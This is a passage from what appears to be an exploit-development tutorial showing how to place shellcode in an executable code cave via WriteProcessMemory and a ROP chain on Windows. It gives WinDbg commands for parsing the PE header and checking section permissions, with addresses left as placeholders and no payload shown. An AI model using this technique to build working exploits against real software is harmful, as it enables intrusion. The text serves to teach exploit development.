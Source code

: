  Let’s recap our overall exploit structure, we will need to copy our shellcode to the codecave. 

[offset] —> [writeprocessmemory] —> [eip] —> [rop] —> [shellcode]

We now need to patch in the address where WriteProcessMemory() needs to return to after it finished. Before we can proceed we need to identify the codecave where we can copy our shellcode to. The requirements would be that we should utilise a memory location with *Execute* permissions. We first check the location where our shellcode is currently residing in. We will also need to dynamically resolve the address and can potentially utilise a pivot to jump to our shellcode. We check the memory protections where our current shellcode is located. 

```python
dds XXXX + 0x210 L10

```

From the above we note that our shellcode start at offset XXXX. Keep in mind that `0x454545` currently represents our shellcode as per our payload.  Based on our checks we identify that we have no **EXECUTE** permission and would need to search for a new codecave. To find a codecave we will search for null bytes at the end of a code section’s upper bounds. We find the start of the code pages by looking at the PE header. We find the offset to the PE header by dumping the DWORD at offset XXX from the MZ header. Next we add XXXX to the offset to find the offset to the code section.

```python
0:004> dd XXXX + 3c L1
0:004> dd XXXX + f8 + 2c L1
0:004> ? XXXX + 1000

```

We use the `!address` command to collect information from that section. and we want to have *EXECUTE* permissions.

```python
0:004> !address XXXXX
```

From above we can identify the upper bound of the code section. To now find the code cave we can subtract a large value from the upper bound to find unused memory large enough to store shellcode.

```python
0:004> dd ENDADDRESS - 200

0:004> ? ENDADDRESS-200 - processname

```

It looks like our code stars at `0x2e00` and we compensate for the null byte by adding four bytes e.g. `0x2e04`. We seem to not have alot of space here. So next we will see if we cannot use the *.text* area of the module instead.

```python

0:004> !dh processname

SECTION HEADER #1
   .text name
    **1E39 virtual size
    1000 virtual address**
    2000 size of raw data
     400 file pointer to raw data
       0 file pointer to relocation table
       0 file pointer to line numbers
       0 number of relocations
       0 number of line numbers
60000020 flags
         Code
         (no align specified)
         Execute Read

```